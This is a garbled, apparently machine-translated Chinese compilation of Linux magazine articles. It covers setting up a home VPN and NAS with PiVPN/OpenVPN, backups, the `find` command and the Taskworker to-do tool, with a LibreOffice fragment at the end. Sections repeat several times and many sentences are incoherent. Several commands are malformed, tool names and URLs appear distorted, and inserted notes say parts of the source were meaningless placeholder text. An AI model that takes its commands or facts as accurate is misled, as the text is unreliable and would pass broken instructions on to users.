还有另一种方法：无需在你的移动设备和服务器运行器之间建立连接的 `VPN`。客户端设备对于本地网络是完全安全的，因为它位于你的家里或办公室里。如果每个人都使用这种方法，初始设置可能会稍微费一点精力，但之后你就可以使用所有你想运行的服务了。

一些人也倾向于将他们的 `VPN` 服务器保持独立。如果你不这样做，`OpenVPN` 有一个 `bash` 脚本可以为你完成设置。它运行在树莓派和 `Debian` 上，所以你也可以在 `Ubuntu` 上运行它——`Ubuntu` 路由器，轻松运行一个开源服务器固件，可以作为。

`Samba` 和 `NFS` 等标准文件协议并不适用于此，因为世界上到处都是孩子在敲你的门（或端口）。在这里你有多种选择。一种是仅使用专为云访问设计的服务，例如用于文件共享和我们在移动时访问音乐的 `Nextcloud`




> 专家提示：更新的（软）的。如果你向外部世界开放自己，保持系统安全变得更加重要。不要忘记你的路由器——它是所有入侵的网关。



`VPN` 需要一个静态 `IP` 地址才能工作。

在下一节中，你可以使用你当前的网络设置 (`DHCP`) 或手动设置此。



你可以修改默认配置文件。

输入新值或按 `-` 保留默认

```
$
```

- 1 安装 `PiVPN`: https://github.com/raspi/pivpn 下载并运行 `OpenVPN` 安装程序。如果你有一个不支持的类 `Ubuntu` 系统（例如 `Linux` `NAS`），你可以下载脚本并将你的发行版添加到第 9 行，然后用 `bash` 运行脚本。

## 2 设置 IP 地址

作为服务器，你需要一个静态 `IP` 地址。`PiVPN` 在树莓派上运行时会设置此项。在任何其他系统中，使用发行版的网络配置工具设置一个合适的地址，该地址应该在 `DHCP` 分配的范围内。

`OpenVPN` 的默认端口是 `1194`，没有必要更改它，除非你想在同一台路由器上运行多个 `VPN`。无论如何，你都可以设置一个工作端口号，因为你需要将其转发到路由器的设置页面。

`OpenVPN` 服务器，你通常可以使用 `PiVPN` 生成的配置到你的 `Web` 界面。请按照下方的步骤涉及设置 `VPN` 的操作。

`VPN` 适用于远程访问，但如果你想让更广泛的观众可以使用你的某些文件，像 `NextCloud` 这样的专用安全服务器是更好的选择。有了写入权限后，你就对存储在服务器上的任何内容负责，因此不要用它来托管可疑内容。因此，只向你信任的人授予访问权限。

如果你需要 `NAS` 从外部访问文件，你需要一种让计算机找到你的方法。理想的解决方案是静态 `IP` 地址。大多数 `ISP` 地址分配，你的公网 `IP` 地址每次连接时都可能变化。在实践中，由于始终连接，地址很少变化，但静态地址值得某些提供商收取的少量费用（如果有的话）。另一种替代方案是动态 `DNS` (`DDNS`)，它提供一个主机名，你运行一个小型客户端，保持他们的服务器更新你当前的 `IP` 地址；某些路由器将不支持自定义域名，但它确实让你始终知道连接到哪里。

一种选择是为服务使用非标准端口，特别是 `SSH` 和 `OpenVPN`，这样攻击者就会看到常规端口处于关闭状态。

允许外部访客访问的另一个危险是，真正的访客可能会受到中间人攻击（`man-in-the-middle` `attack`），当他们向你的服务器上传文件时，其实已经连接到了其他人。使用 `SSL` 证书来验证你的服务器，并确保在使用 `HTTPS` 时是安全的。但如果没有有效的证书，它就像一扇带插的门，曾经很复杂，现在不再如此。这归功于 `https://letsencrypt.org/`，任何人都可以毫不轻松地为他们的网站获取免费的 `SSL` 证书。

如果你打算向外部开放端口，你将会遇到不受欢迎的访客。使用 `www.failban.org`，它会创建防火墙规则，阻止来自登录失败多次地址的访问。另一个：为 `OpenVPN` 服务器开放端口，你只需要安全


| TCP | 21 | Any | Any | eth0 |

| TCP | 22 | Any | Any | eth0 |

| TCP | 80 | Any | Any | eth0 |

| TCP | 443 | Any | Any | eth0 |

| TCP | 345 | Any | Any | eth0 |

| UDP | 53 | Any | Any | eth0 |

如果你开始向外部开放端口，你将遇到不受欢迎的访客。使用（软）的。如果你向外部世界开放自己，保持系统安全变得更加重要。不要忘记你的路由器——它是所有入侵的网关。

`VPN` 需要一个静态 `IP` 地址才能工作。

在下一节中，你可以使用你当前的网络设置 (`DHCP`) 或手动设置此。

你可以修改默认配置文件。

输入新值或按 `-` 保留默认

```
$
```

- 1 安装 `PiVPN`: https://github.com/raspi/pivpn 下载并运行 `OpenVPN` 安装程序。如果你有一个不支持的类 `Ubuntu` 系统（例如 `Linux` `NAS`），你可以下载脚本并将你的发行版添加到第 9 行，然后用 `bash` 运行脚本。

## 2 设置 IP 地址

作为服务器，你需要一个静态 `IP` 地址。`PiVPN` 在树莓派上运行时会设置此项。在任何其他系统中，使用发行版的网络配置工具设置一个合适的地址，该地址应该在 `DHCP` 分配的范围内。

## 3 设置端口

`OpenVPN` 的默认端口是 `1194`，没有必要更改它，除非你想在同一台路由器上运行多个 `VPN`。无论如何，你都可以设置设置一个工作端口号，因为你需要将其转发到路由器的设置页面。

`OpenVPN` 服务器，你通常可以使用 `PiVPN` 生成的配置到你的 `Web` 界面。请按照下方的步骤涉及设置 `VPN` 的操作。

`VPN` 适用于远程访问，但如果你想让更广泛的观众可以使用你的某些文件，像 `NextCloud` 这样的专用安全服务器是更好的选择。有了写入权限后，你就对存储在服务器上的任何内容负责，因此不要用它来托管可疑内容。因此，只向你信任的人授予访问权限。

如果你需要 `NAS` 从外部访问文件，你需要一种让计算机找到你的方法。理想的解决方案是静态 `IP` 地址。大多数 `ISP` 地址分配，你的公网 `IP` 地址每次连接时都可能变化。在实践中，由于始终连接，地址很少变化，但静态地址值得某些提供商收取的少量费用（如果有的话）。另一种替代方案是动态 `DNS`，它提供一个主机名，你运行一个小型客户端，保持他们的服务器更新你当前的 `IP` 地址；某些路由器将不支持自定义域名，但它确实让你始终知道连接到哪里。

一种选择是为服务使用非标准端口，特别是 `SSH` 和 `OpenVPN`，这样攻击者就会看到常规端口处于关闭状态。

允许外部访客访问的另一个危险是，真正的访客可能会受到中间人攻击，当他们向你的服务器上传文件时，其实已经连接到了其他人。使用 `SSL` 证书来验证你的服务器，并确保在使用 `HTTPS` 时是安全的。但如果没有有效的证书，它就像一扇带插的门，曾经很复杂，现在不再如此。这归功于 `https://letsencrypt.org/`，任何人都可以毫不轻松地为他们的网站获取免费的 `SSL` 证书。

## 打开配置文件


## 1 安装 PiVPN

如果你打算向外部开放端口，你将遇到不受欢迎的访客。使用`www.failban.org`，它会创建防火墙规则，阻止来自登录失败多次地址的访问。另一个：为`OpenVPN`服务器开放端口，你只需要安全。

**提示**：更新的（软）的。如果你向外部世界开放自己，保持系统安全变得更加重要。不要忘记你的路由器——它是所有入侵的网关。

`VPN`需要一个静态`IP`地址才能工作。

在下一节中，你可以使用你当前的网络设置`DHCP`或手动设置此。

你可以修改默认配置文件。

输入新值或按`-`保留默认。

```bash
$
```

访问`https://github.com/raspi/pivpn`下载并运行`OpenVPN`安装程序。如果你有一个不支持的类`Ubuntu`系统（例如`Linux NAS`），你可以下载脚本并将你的发行版添加到第 9 行，然后用`bash`运行脚本。

## 2 设置 IP 地址

作为服务器，你需要一个静态`IP`地址。`PiVPN`在树莓派上运行时会设置此项。在任何其他系统中，使用发行版的网络配置工具设置一个合适的地址，该地址应该在`DHCP`分配的范围内。

## 3 设置端口

`OpenVPN`的默认端口是`1194`，没有必要更改它，除非你想在同一台路由器上运行多个`VPN`。无论如何，你都可以设置一个工作端口号，因为你需要将其转发到路由器的设置页面。

`OpenVPN`服务器，你通常可以使用`PiVPN`生成的配置到你的`Web`界面。请按照下方的步骤涉及设置`VPN`的操作。

`VPN`适用于远程访问，但如果你想让更广泛的观众可以使用你的某些文件，像`NextCloud`这样的专用安全服务器是更好的选择。有了写入权限后，你就对存储在服务器上的任何内容负责，因此不要用它来托管可疑内容。因此，只向你信任的人授予访问权限。

如果你需要`NAS`从外部访问文件，你需要一种让计算机找到你的方法。理想的解决方案是静态`IP`地址。大多数`ISP`地址分配，你的公网`IP`地址每次连接时都可能变化。在实践中，由于始终连接，地址很少变化，但静态地址值得某些提供商收取的少量费用（如果有的话）。另一种替代方案是动态`DNS`，它提供一个主机名，你运行一个小型客户端，保持他们的服务器更新你当前的`IP`地址；某些路由器将不支持自定义域名，但它确实让你始终知道连接到哪里。

一种选择是为服务使用非标准端口，特别是`SSH`和`OpenVPN`，这样攻击者就会看到常规端口处于关闭状态。

允许外部访客访问的另一个危险是，真正的访客可能会受到中间人攻击，当他们向你的服务器上传文件时，其实已经连接到了其他人。使用`SSL`证书来验证你的服务器，并确保在使用`HTTPS`时是安全的。但如果没有有效的证书，它就像一扇带插的门，曾经很复杂，现在不再如此。这归功于`https://letsencrypt.org/`，任何人都可以毫不轻松地为他们的网站获取免费的`SSL`证书。

### 打开配置文件

如果你打算向外部开放端口，你将遇到不受欢迎的访客。使用`www.failban.org`，它会创建防火墙规则，阻止来自登录失败多次地址的访问。另一个：为`OpenVPN`服务器开放端口，你只需要安全。

确保你已经从多台计算机或设备添加了`SSH`密钥。你可不想因为丢了笔记本电脑而丢失访问权限！

我们已经涵盖了运行`VPN`网关，但还有很多其他方法。你可以运行`dnsmasq`为你的网络提供`DHCP`服务，而不是在每台电脑上添加`hosts`文件。如果你使用`BitTorrent`进行本地下载，像这样一个始终开启的设备是下载后进行做种的理想选择——

你可以运行一个本地时间服务器将手机连接到网络上的所有可用资源。还有许多其他可能性。我们有一个桥接`https://github.com/wesnat/hass-bridge`，可以连接你的智能家居设备，使其受`Amazon Echo`或`Google Home`设备控制。

如果你无法更好地设置`NAS`的所有软件，但想自己选择硬件（而不是旧电脑），请查看`openmediavault` (`www.openmediavault.com`)。它主要用于小型办公室和家庭环境。



虽然使用命令行通常是管理计算机最快的方法，但在你具体操作时也是确实如此，尤其是当你有足够的知识了解命令时。



有了大量文件，确保它们安全变得更加重要，我们如何备份数据呢？

你的`NAS`可能会迅速积累大量不可替代的数据，这使其变得非常脆弱，因此你来考虑保持数据安全。第一步可能是使用`RAID`防止单盘故障，但备份也是必要的。备份显然是必须的，但你需要备份什么取决于你的需求。正如之前提到的，备份和替换一样简单。视频文件以及你可能在网上的照片很容易重新下载；另一方面，个人文档非常重要，且文件可能是无法替代的。

还应该考虑备份频率。你需要多久备份一次？直到每天结束时备份一次，每天工作每周一次。在业务环境中，你应该考虑的至少是一个与主设备镜像的第二个`NAS`。这样，如果任何硬件故障，你可以以最小的干扰更换单元。你的备份确保了数据定期更新，具体取决于你的工作频率。在故障发生前，你可能需要更频繁地备份，这就是`ZFS`和`btrfs`等下一代文件系统大显身手的地方。它们的特性可以自动检测并修复`RAID`副本中的损坏。

你还应该考虑对数据进行加密的离地备份，以保护数据保护法要求的信息。确保任何离地备份都是安全的，将其存储在另一个国家。另一种情况下，你可能想备份台式电脑或笔记本电脑的数据，你只需要一个有足够存储空间的`NAS`。

> 别忘记测试你的备份！确保你已通过`cron`或类似的机制进行备份，但要进行一次测试恢复以确保你的备份实际上是用的。

选择什么备份程序取决于个人喜味，也取决于你的需求。备份应该是快速或类似的，但也取决于你希望如何恢复数据。某些程序，如`duplication` (`https://www.ngoh.org/duplication`)，处理大文件速度更快，但恢复不小心删除的单个文件需要读取主页。另一方面，`backup` (`https://github.com/backups/readme.md`) 允许你挂载存档，因此可以在任何文件管理器中恢复文件，即使经验较少的用户也可以。


- 使用`backup init --encryption=none /backup/dir`创建仓库。这会初始化一个没有任何加密密码的仓库。我们在这里没有使用加密，但你通常会使用文档中提供的选项之一。
- `backup --dir=/backup/dir/first backup`创建你的家目录的备份。在这里，你可以在不同的计算机上通过`user@host:/backup/path`创建备份。
- 使用`backup --dir=/backup/next_backup`进行家目录备份。这比复制所有文件要快得多；每个备份代表备份时文件系统的状态，但每个文件只存储。
- 你可以使用`backup`命令进行恢复，但也可以挂载存档，这样可以在任何文件管理器中恢复文件，即使是经验较少的用户也可以：`backup /dir /mountpoint`。备份以目录的形式出现在存储库中。


（注：此处原文为大量无意义的乱码/占位符文本，按要求保留格式不进行逻辑性翻译）

# Linux 基础教程：Find

## Find：学习快速搜索你的文件系统

使用`find`命令跨目录搜索文件并执行复杂任务。


John 是编程和科学领域的大学导师。他喜欢在每个人身上安装`Linux`，并拥有丰富的编程经验。

- 一个终端 shell 将安装在任何 `Linux` 发行版上

```bash
find -name '*.xo' -exec bash -c '
  for file in "$@";
    if [ -s "$file" ]; then
      echo "Missing expected result for test case: $file"
    else
      echo "Test case file: $file"
    fi
end' -- {} +
```

（注：后续部分路径及描述为占位符/乱码文本，按要求保留格式不进行逻辑性翻译）

强大的`find`允许你定位匹配模式的文件和目录，并快速高效地执行操作。

在之前的系列中，我们遇到了通配符，如`*`和`[a-z]`，它们允许我们用一句话找到匹配模式的文件路径列表。`find`程序就像是一个更复杂、更强大的搜索版本；例如，`find`的核心功能之一是递归搜索目录及其所有子目录等，搜索不符合某种模式的文件。


`find` 更加强大，因为它不仅使用文件列表，还允许我们对该列表进行操作。例如，可以找到并删除所有符合测试条件的文件。更强大的是，它允许我们将文件传递给任意命令，跨一系列目录执行复杂操作。让我们来看看这个宝贵的工具如何使用。

# 学习 `find` 基础

假设我们想搜索家目录以找到所有包含 `up` 的 PDF 文件，然后删除它们。我们可以使用以下命令：

```
$ find -name '*.pdf*'
```

第一个参数始终是我们想要搜索的树根——在这种情况下，是我们的家目录。接着我们跟着几个开关，告诉程序我们正在寻找什么类型的文件。简单的开关是 `-name`，它允许我们使用通配符指定文件名。

待扩展

## 图 1

不要将 `-depth` 标记与 `-maxdepth` 和 `-mindep` 混淆，它并不是深度优先搜索，即我们会在处理目录本身之前处理目录的内容。

```bash
$ find -name 'CV.pdf' in
directories，而不是找到所有的 PDF 文件。单引号
可以防止 shell 执行搜索，因此使用它们
是一个好主意。
```

```bash
$ mkdir -p a/b
$ find a
a/b
$ find a -depth
a/b a
```

符号 `*` 正如你猜想的那样，可以匹配许多字符串，因此 `*` 会匹配 `CV.pdf`、`contract.pdf` 和 `article.pdf`。这意味着 `find` 命令将找到所有文件，只要它们在我们主目录的任何递归子目录中。对于更复杂的查询，我们是否可以使用 `?` 字符（它表示可选字符）以及 `[]` 语法（我们可以用它来指定可接受的值）。考虑以下命令，

## 甚至更强大，它允许 `find` 将文件传递给 shell 命令，允许我们跨一系列目录执行复杂操作

```bash
$ find -name '[0-9]*[a-Za-z]*'
```

路径的开头，并且我们使用了 `[]` 来仅匹配 `/` 字符，并确保我们匹配的是文件名，而不是路径中的某些目录名。如果我们想使用 `-name` 语法匹配更多文件，可以使用 `-path` 标记。

这将递归地找到主目录树中所有以一个 `-`、一个两位数字或其他字符之一开头的目录——例如，`z`。

## 使用正则表达式搜索

通配符可能会让你想起我们在上一节中介绍过的正则表达式。如果 `*` 和 `[]` 对于我们想要执行的查询不够强大，我们可以使用 `-regex` 标记在正则表达式范围内进行搜索。第一个示例变为

搜索下方的目录树是非常有用的，但有时我们想搜索上一个章节的内容。例如，我们可能想搜索目录及其所有的子目录，但通过它们的任何子目录。我们可以使用 `-maxdepth` 来实现：

```bash
$ find -name '^.*'
```

但我们也会做更复杂的事情，例如找到所有以重复字符（如 `aaa`）结尾的表达式。

同样，`-maxdepth 1` 只搜索目录，以此类推。

通常情况下，`home` 已经足够且更易用。就像 `-name` 仅匹配路径的一部分一样，`-regex` 匹配整个路径，因此我们在匹配时必须小心。

还有一个 `-mindepth` 选项，所以我们可以搜索所有的子目录和子子目录，但不包括目录本身：

你会发现使用扩展正则表达式（Extended Regular Language）很有用，你可以找到 `-regex` 选项。如果我们想使用扩展的 `-regex` 来找到第二个示例，我们可以使用扩展语言，因为基础语言（Basic Language）不支持 `?`。在这种情况下，等效的

```bash
$ find -mindepth 2 -maxdepth 3 -name '*.txt'
```

你不应该将其与 `-depth` 选项混淆，它是完全不同的。使用 `find` 目录倾向于将它们放在前面。参见说明性示例中的图 1（后）。

```bash
$ find -regex grep '.*[0-9]*[a-Za-z]*'
```

如果我们正尝试使用 `cpio` 命令生成到处处的文件列表，或者查找一个压缩文件夹或归档 `tar`，那么它是非常有用的。如果我们复制一个目录然后从中复制一个文件，如果里面有新文件，新目录的时间戳将被修改。如果我们先复制文件再复制目录，时间戳将被保留。

此命令与之前版本的唯一区别是，它会同时匹配目录和文件。如果我们想让它知道，可以通过添加标记 `-type f` 来仅匹配文件。请注意，我们必须在开头使用 `.*` 是为了吞掉



## 教程

## Linux 基础：Find

## 查找帮助

使用 `find` 的另一个原因是创建一个文件列表，将其复制到另一个位置、具有限制权限的目录（例如，没有写权限）。在这种情况下，我们想复制目录的内容，然后复制目录本身。否则，由于权限限制，我们将无法复制它的内容。

一个非常有用的替代命令是 `delete`，它会删除指定的文件。例如，我们想通过删除所有编译后的 Java 文件来“清理”一个 Java 项目：

最后，当我们想要删除文件时，通常会使用 `delete`。但正如我们将看到的，有种更简单的方法。

注意，如果你使用 `delete` 命令，`find` 会自动应用 `-delete` 切换在父目录之前删除文件。

```bash
$ find -name "*.class" -delete
```

## 仅匹配目录或文件

## 将命令链在一起

正如我们在早期的示例所示，`find` 可以匹配目录也可以匹配文件。如果我们只想删除文件，可以使用 `-type f` 来过滤结果。

我们可以通过将参数放在另一个参数后面来一次执行一个命令。例如，如果我们想打印在上面示例中删除的 `.class` 文件的路径，我们可以运行：

```bash
$ find -type f -regextype -regex '.*\.class$' -print
```

```bash
$ find -type f -name "*.class" -print
```

可以使用 `type` 来匹配目录，因为目录没有 `abc` 扩展，所以我们无法使用 `name` 或 `regex` 匹配它们。例如，以下命令搜索工作目录的所有子目录并删除所有匹配项。

我们也可以用同样的方法进行搜索。事实上，当我们需要指定最大深度和最小深度时，我们已经在这个示例中演示了 `mindepth` 和 `maxdepth` 选项。

```bash
$ find -type d -name "*config*" -prune -o -print
```

这种命令链的形式被称为参数逻辑，并在许多编程语言中使用 `|` 运算符。例如，当我们想在上面的示例中使用 `print` 和 `delete` 命令时，我们可以使用 `find` 来查找文件，如果 `-maxdepth` 和 `-mindepth` 命令为真。例如，

通配符可能会让你想起我们在上一节中介绍过的正则表达式。如果 `*` 和 `[]` 对于我们想要执行的查询不够强大，我们可以使用 `-regex` 标记在正则表达式范围内进行搜索。第一个示例变为

搜索下方的目录树是非常有用的，但有时我们想搜索上一个章节的内容。例如，我们可能想搜索目录及其所有的子目录，但通过它们的任何子目录。我们可以使用 `-maxdepth` 来实现：

```bash
$ find -name '^.*'
```

但我们也会做更复杂的事情，例如找到所有以重复字符（如 `aaa`）结尾的表达式。

同样，`maxdepth 1` 只搜索目录，以此类推。

通常情况下，`home` 已经足够且更易用。就像 `-name` 仅匹配路径的一部分一样，`-regex` 匹配整个路径，因此我们在匹配时必须小心。

还有一个 `-mindepth` 选项，所以我们可以搜索所有的子目录和子子目录，但不包括目录本身：

你会发现使用扩展正则表达式很有用，你可以找到 `-regex` 选项。如果我们想使用扩展的 `-regex` 来找到第二个示例，我们可以使用扩展语言，因为基础语言不支持 `?`。在这种情况下，等效的

```bash
$ find -mindepth 2 -maxdepth 3 -name '*.txt'
```

你不应该将其与 `-depth` 选项混淆，它是完全不同的。使用 `find` 目录倾向于将它们放在前面。参见说明性示例中的图 1（后）。

```bash
$ find -regex grep '.*[0-9]*[a-Za-z]*'
```

如果我们正尝试使用 `cpio` 命令生成到处的文件列表，或者查找一个压缩文件夹或归档 `tar`，那么它是非常有用的。如果我们复制一个目录然后从中复制一个文件，如果里面有新文件，新目录的时间戳将被修改。如果我们先复制文件再复制目录，时间戳将被保留。

此命令与之前版本的唯一区别是，它会同时匹配目录和文件。如果我们想让它知道，可以通过添加标记 `-type f` 来仅匹配文件。注意，我们必须在开头使用 `.*` 是为了吞掉

...（剩余文本已根据逻辑合并）

## 教程

## Linux 基础：Find

## 查找帮助


## 使用 find 命令

使用 `find` 的另一个原因是创建一个文件列表，将其复制到另一个位置、具有限制权限的目录（例如，没有写权限）。在这种情况下，我们想复制目录的内容，然后复制目录本身。否则，由于权限限制，我们将无法复制它的内容。

一个非常有用的替代命令是 `delete`，它会删除指定的文件。例如，我们想通过删除所有编译后的 `Java` 文件来“清理”一个 `Java` 项目：

最后，当我们想要删除文件时，通常会使用 `delete`。但正如我们将看到的，有种更简单的方法。

注意，如果你使用 `delete` 命令，`find` 会自动应用 `-delete` 切换在父目录之前删除文件。

```bash
$ find -name "*.class" -delete
```

## 仅匹配目录或文件

## 将命令链在一起

正如我们在早期的示例所示，`find` 可以匹配目录也可以匹配文件。如果我们只想删除文件，可以使用 `-type f` 来过滤结果。

我们可以通过将参数放在另一个参数后面来一次执行一个命令。例如，如果我们想打印在上面示例中删除的 `.class` 文件的路径，我们可以运行：

```bash
$ find -type f -regextype -regex '.*\.class$' -print
```

```bash
$ find -type f -name "*.class" -print
```

...通过它们的任何子目录。

我们正在匹配文件名，而不是路径中的某些目录名。如果我们想使用 `-name` 语法匹配更多文件，可以使用 `-path` 标记。

这将递归地找到主目录树中所有以一个 `-`、一个两位数字或其他字符之一开头的目录——例如，`z`。

## 教程

## Taskworker: 让任务有序

### Taskworker: 在 CLI 上管理你的待办事项

在终端中处理你不断扩展的待办事项。

Shashank Sharma

Shashank 是新德里的一名试验律师，过去两年一直专注于构建开源软件。

## 资源

- `GCC` & `Make`

  通过你的发行版软件仓库安装。

- `Taskworker`

  `https://taskworker.org`

现在，你可以使用 `task` 命令来管理 `Taskworker`。当你第一次运行它时，它会在用户主目录下搜索名为 `.taskrc` 的配置文件。如果没有找到，该工具将自动为你创建一个。现在你可以开始使用 `add` 命令开始添加待办列表了：

```
$ task add Tutorial on Taskworker
Created 1.
$ task add Review for LUUD 195
Created 2.
$ task add "Roundup to LUUD 195"
Created 3.
$ task add 2nd draft of SKT-Divorce case
Created 4.
```

简单的待办列表是一个文本文件，其中包含未来几天要完成的任务的序列化列表。虽然列表很容易创建，但从中提取实用信息则是另一回事，这也是 `Taskworker` 发挥用场的地方。这个基于命令行的管理工具用于向待办列表添加任务，你还可以为每个任务分配优先级。

我们在这里使用了命令来创建不同的任务。所有任务按名称组织，或者如果你用引号括起来，则按描述组织。默认情况下，描述是单行的任务长度；如果你想用引号对描述进行换行，请将其括起来并提供换行。

除了安装 `Ubuntu` 或把猫从笼子里放出来之类的任务，你可能可以通过几个任务来组织整个项目，每个任务都是为你的家庭网络设置多服务器。`Taskworker` 允许你创建多个项目，每个项目都可以拥有任务。每个任务可以在列表中搜索任何名称，并使用 `Taskworker` 生成报告——这并无用处——当你接近重要的错过截止日期时，这可以帮你科学地规划时间。

每个新任务都会自动为 `Taskworker` 分配一个唯一 `ID`，工具会在每次 `add` 命令后帮助你找到。你可以通过运行 `task` 命令来获取待办列表中的任务列表：

```
$ task
```

| ID | 描述 | 周期 |
|---|---|---|
| 1st | Tutorial on Taskworker | 0 |
| 5min | Review for LUUD 195 | 0 |
| 5min | Roundup to LUUD 195 | 0 |
| 5min | 2nd draft of SKT-Divorce case | 0 |

4 个任务

你可以使用每个任务的唯一 `ID` 来执行删除、完成或修改等操作。`task delete <ID>` 命令会从你的列表中删除特定任务，当你完成一个任务时，可以使用 `task done <ID>` 命令更新 `Taskworker`。除了这些只有描述而没有额外细节的任务外，

许多 `Linux` 发行版（如 `Ubuntu`、`Fedora`、`Debian` 等）的软件仓库中都包含了 `Taskworker`，因此安装只需运行 `sudo apt install taskworker` 或 `sudo dnf install taskworker` 或等效命令一样简单。你可以修改它、从项目网站获取源代码并遵循安装说明，这涉及的操作比运行 `make` 和 `make install` 更多。



你还可以使用 `+` 号给任务添加标签。这有助于你区分它们。例如，你可以为任务分配可识别的标签，如 `+favour`、`+upcoming`、`+important` 等。需要时，你可以为每个任务分配多个标签。`task add` 命令创建一个新任务并将其添加到项目标签。你可以使用 `task list` 获取项目的所有任务列表。你可以获取所有带有 `cake` 标签的任务列表，但不是使用 `list` 命令。`-` 符号可以配合任务列表使用，根据需要移除搜索结果。

如果你在添加任务时不小心忘记指定某些用户信息，或想进行任何更改，请使用要编辑的任务的 `ID` 配合 `modify` 命令选项：

```
$ task add file tier
Created task 5.
$ task modify :due
Modifying task 5 'FILE'.
Modified 1 task.
```

如你所见，你使用了 `modify` 命令为任务添加了截止日期。你还可以通过分离标识每个任务、提供任务空格列表、甚至对它们进行排序来编辑多个任务：

- `5 priority:H`

- 优先级将被设置为 `'M'`

- 是否修改任务 `1 'Title on Taskworker'? (yes/no/all) yes`

- 修改任务 `1 'Title on Taskworker'.`

- 优先级将被设置为 `'M'`

- 是否修改任务 `3 'Roundup for LUUD 195'? (no/all) all`

- 修改任务 `'Roundup for LUUD 195'.`

- 修改任务 `5 'FILE tier'.`

- 修改任务 `7 'cake'.`

当你执行批量操作时，`Taskworker` 在执行针对指定任务的指令前会提示你确认。除了添加截止日期、优先级和标签等新元素外，你还可以使用 `modify` 命令来编辑任务。

除了合并任务并在完成时标记它们，你可以使用 `stop` 命令跟踪你正在处理的任务。通过 `task add date` 命令为任务分配日期。当你停止处理某个任务时，可以使用 `stop` 命令更新该信息。

如果你想创建一个循环任务（例如支付信用卡账），可以使用 `recur` 命令。



参考官方文档以获取使用 `due` 命令支持的日期格式：`taskworker.org/docs/dates.html`。

上面的 `task history` 命令显示了任务历史。

- 创建任务 `18`（循环任务）。

你可能会发现某些任务比其他重要，可以使用 `priority` 命令选项来标识它们。默认情况下，任务没有优先级。你可以选择高、中、低优先级。2月28日的备份操作设置为高优先级。`priority:list` 命令对中或低优先级的操作类似。

除了任务，一种分组方法：你可以使用 `project` 命令将任务组织到项目中。使用 `task add description:project=name` 语法。你可以为任务创建子项目。如果任务可以轻松移动到可管理的组（即子项目），这将非常有帮助。

例如，在你的下一个项目中，你可能安排花园、厨房和房屋的任务。你可以使用 `due: project=home:garden +cleaning` 将任务从一个项目移动到另一个项目。

当你过滤任务时，当任务列表产生结果时，你可以使用任务列表移除搜索结果。

# 2011 年编写的基础代码在完全现代的 LibreOffice 中仍然可用


遗憾的是，有些文档在不从头重写宏的情况下是无法使用的。你的选择是花费大量时间重写，或者在这一特定阶段内继续使用`Microsoft Office`。你所看到的对话框提示要确保`Switch Host`和`VBB`扩展已安装在同一个`wine prefix`中。你还应该搜索`https://apps.winehq.org`查找你打算运行的`Mercury`版本，以获取关于其运行可能所需的进一步信息和配置。

## 使用 APSO

一个名为`APSO`（替代脚本组织器）的工具非常方便，它允许让你在对`LibreOffice Base`有益的工具中使用本地`Python`脚本。

